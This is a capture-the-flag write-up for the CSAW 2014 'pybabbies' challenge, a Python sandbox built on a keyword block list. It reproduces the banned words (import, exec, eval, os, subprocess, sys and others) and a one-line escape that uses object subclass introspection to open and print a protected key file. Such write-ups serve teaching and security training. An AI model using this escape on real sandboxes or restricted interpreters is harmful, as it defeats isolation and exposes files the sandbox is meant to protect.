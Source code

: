 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely_not_intro_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
